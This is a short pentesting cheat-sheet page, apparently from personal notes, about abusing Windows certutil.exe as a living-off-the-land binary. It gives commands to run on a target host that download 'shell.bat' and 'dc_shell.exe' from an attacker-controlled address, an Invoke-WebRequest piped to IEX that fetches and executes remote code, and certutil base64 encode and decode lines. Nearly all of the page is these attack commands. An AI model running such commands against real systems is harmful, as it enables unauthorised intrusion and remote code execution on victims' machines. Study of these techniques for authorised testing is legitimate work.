```yaml
---
title: certutil
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - windows
  - lolbas
---
```

#  certutil
 [certutil.exe](https://lolbas-project.github.io/lolbas/Binaries/Certutil/) intended use is for handling certificates but can also be used to transfer files by either downloading a file to disk or base64 encoding/decoding a file.

Import a file: (from a windows target host)

```powershell
certutil.exe -urlcache -split -f http://$ipAtacker:8080/shell.bat shell.bat

certutil.exe -urlcache -split -f http://172.16.8.120:6666/dc_shell.exe dc_shell.exe

Invoke-WebRequest http://172.16.8.120:8765/dc_shell.exe -UseBasicParsing | IEX
```

Encode to base64:

```cmd
certutil -encode file1 encodedfile
```

Decode a file

```cmd
certutil -decode encodedfile file2
```

